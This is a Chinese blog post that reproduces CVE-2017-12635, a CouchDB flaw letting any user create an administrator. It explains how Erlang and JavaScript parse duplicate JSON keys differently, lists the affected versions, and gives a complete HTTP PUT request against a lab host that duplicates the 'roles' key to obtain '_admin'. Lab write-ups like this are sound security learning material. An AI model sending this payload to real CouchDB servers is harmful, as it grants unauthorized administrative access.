


# Couchdb 垂直权限绕过漏洞（CVE-2017-12635）漏洞复现 - foe0 - 博客园

> 原文：[`www.cnblogs.com/foe0/p/11375757.html`](https://www.cnblogs.com/foe0/p/11375757.html)

**couchdb 简介：**

*   Apache CouchDB 是一个开源的 NoSQL 数据库，专注于易用性和成为“完全拥抱 web 的数据库”。它是一个使用 JSON 作为数据存储格式，javascript 作为查询语言，MapReduce 和 HTTP 作为 API 的 NoSQL 数据库。 

**漏洞原理：**

*   CVE-2017-12635：Erlang 和 JavaScript，对 JSON 解析方式的不同，导致语句执行产生差异性。这个漏洞可以让**任意用户创建管理员**，属于垂直权限绕过漏洞。
*   举例：

    ```
    Erlang:

    > jiffy:decode("{"a":"1", "a":"2"}").

    {[{<<"a">>,<<"1">>},{<<"a">>,<<"2">>}]}
    ```

    ```
    JavaScript: > JSON.parse("{"a":"1", "a": "2"}")

    {a: "2"}
    ```

*   在定义一对键值对时，Eralang 解析器将存储两个值；javascript 只存储第二个值。但 jiffy 实现时，getter 函数只返回第一个值。这里涉及的函数参考：[`www.anquanke.com/post/id/87256`](https://www.anquanke.com/post/id/87256)；[`github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635`](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)

**影响版本：**

*   小于 1.7.0 以及 小于 2.1.1

**复现：**

*   **构造创建用户的数据包**
*   org.couchdb,user:$name  与 name:$name 是对应的，此时我们没有 admin 权限，所以会报错 forbidden。
*   绕过 role 验证：
*   payload：
    *   ```
        PUT /_users/org.couchdb.user:vulhub HTTP/1.1
        Host: 192.168.183.134:5984
        Accept: */*
        Accept-Language: en
        User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
        Connection: close
        Content-Type: application/json
        Content-Length: 110

        {
          "type": "user",
          "name": "vulhub",
          "roles": ["_admin"],
          "roles":[],
          "password": "vulhub111"
        }
        ```


**一些小思考：**

*   虽然分析说，只读取第一个键值，按理来说，第二个值是任意的应该不影响，但我测试发现，只有为空时，poc 才正确操作。



*   且在创建一个成功后，再重复发包，也会报错 409，
*   修改已创建的密码也不行



**总结：**

　　这个还是比较好利用，但是请别借此破坏信息安全，仅为学习。